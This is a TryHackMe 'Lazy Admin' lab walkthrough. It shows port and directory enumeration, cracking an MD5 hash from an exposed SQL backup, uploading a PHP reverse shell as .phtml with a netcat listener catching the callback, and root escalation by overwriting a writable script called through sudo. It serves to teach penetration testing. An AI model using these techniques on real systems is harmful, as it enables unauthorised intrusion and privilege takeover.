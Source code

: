 ```yaml
---
layout: post
title: Lazy Admin
subtitle: TryHackME - Lazy Admin
description: Enumerate services, scan ports, exploit vulnerabilities, and escalate privileges to capture flags.
image: [https://tryhackme-images.s3.amazonaws.com/room-icons/7a8797ae59733f2a72f0e8a8748be128.jpeg](https://tryhackme-images.s3.amazonaws.com/room-icons/7a8797ae59733f2a72f0e8a8748be128.jpeg)
optimized_image: [https://tryhackme-images.s3.amazonaws.com/room-icons/7a8797ae59733f2a72f0e8a8748be128.jpeg](https://tryhackme-images.s3.amazonaws.com/room-icons/7a8797ae59733f2a72f0e8a8748be128.jpeg)
tags:

* TryHackME
* enum web
* brute force
* Privilege Escalation
* Find Flags
  author: Mustafa Altayeb
  date: 2025-10-16 00:00
  paginate: true

---
```


# Lazy Admin

[Lazy Admin](https://tryhackme.com/room/lazyadmin)

![](https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg)

## Objectives

1. Enumerate ports
2. Enumerate HTTP
3. Brute force with gobuster
4. Gain access with an upload shell
5. Privilege escalation
6. Capture 2 flags

## Reconnaissance

### Nmap Scan

Port scan:

```bash
nmap -p- -sCV -T4 10.10.112.250
```

```js
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protoc
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Key Findings**:

* **Port 22**: SSH service, version 7.2p2
* **Port 80**: Apache httpd

## Web Enumeration

![](/assets/TryHackMeRoomsImage/LazyAdmin/image.png)

## Gobuster

Gobuster may find special directories.

> **gobuster dir --url [http://10.10.112.250](http://10.10.112.250) -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

**Result**

```js
/content              (Status: 301) [Size: 316] [--> http://10.10.112.250/content/]  
```

![](/assets/TryHackMeRoomsImage/LazyAdmin/image2.png)

**Findings**:

* it uses SweetRice as a management system

let's enum this directory:

> **gobuster dir --url [http://10.10.112.250/content](http://10.10.112.250/content) -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

**findings**:

```js
/images               (Status: 301) [Size: 323] [--> http://10.10.112.250/content/images/]                                                          
/js                   (Status: 301) [Size: 319] [--> http://10.10.112.250/content/js/]                                                              
/inc                  (Status: 301) [Size: 320] [--> http://10.10.112.250/content/inc/]                                                             
/as                   (Status: 301) [Size: 319] [--> http://10.10.112.250/content/as/]                                                              
/_themes              (Status: 301) [Size: 324] [--> http://10.10.112.250/content/_themes/]                                                         
/attachment           (Status: 301) [Size: 327] [--> http://10.10.112.250/content/attachment/]   
```

in `/inc` : found MySQL backup:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image3.png)

in `/as` : found login page:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image4.png)

after downloading the SQL backup i found login credentials:

```
username : manager
hash (MD5) : 42f749ade7f9e195bf475f37a44cafcb
```

### crack hash with john

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```

password: `Password123`

login with these credentials `username: manager` && `Password: Password123`

after login i find a tab called **Media Access**:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image5.png)

## Gain Access

using [pentestmonkey php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and updating the IP and port, then start listener with netcat:

```bash
nc -nlvp 9090
```

i tried to upload `.php` but extension not approved; uploading `.phtml` succeeded:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image6.png)

after clicking the uploaded file i gained a shell:

```text
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~/thm_machines/LazyAdmin  nc -nlvp 9090                  
listening on [any] 9090 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.112.250] 49668
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 15:47:29 up  1:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

## Upgrade shell using python

> **$ python -c 'import pty; pty.spawn("/bin/bash")'**

```js
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ 
```

## user flag

```bash
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce927..............}
```

# Privilege escalation

when i enumerated the system i used `sudo -l` to know what can i run:

```js
www-data@THM-Chal:/home/itguy$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```

* i can run `/usr/bin/perl /home/itguy/backup.pl` as root without password.

after checking, `backup.pl` runs `/etc/copy.sh` and `/etc/copy.sh` is writable:

```text
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

i replaced `/etc/copy.sh` with a command to spawn bash as root:

```bash
www-data@THM-Chal:/home/itguy$ echo "/bin/bash" > /etc/copy.sh
```

then i executed the backup script via sudo to get root:

```bash
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
root@THM-Chal:/home/itguy# whoami
root
```

## Root flag

```bash
root@THM-Chal:/home/itguy# cd ~
root@THM-Chal:~# cat root.txt
THM{6637f41d0177b6f37cb2........f}
```

Finished. Happy hacking!

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:

* [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
* [X](https://x.com/T4T4R1S)

---

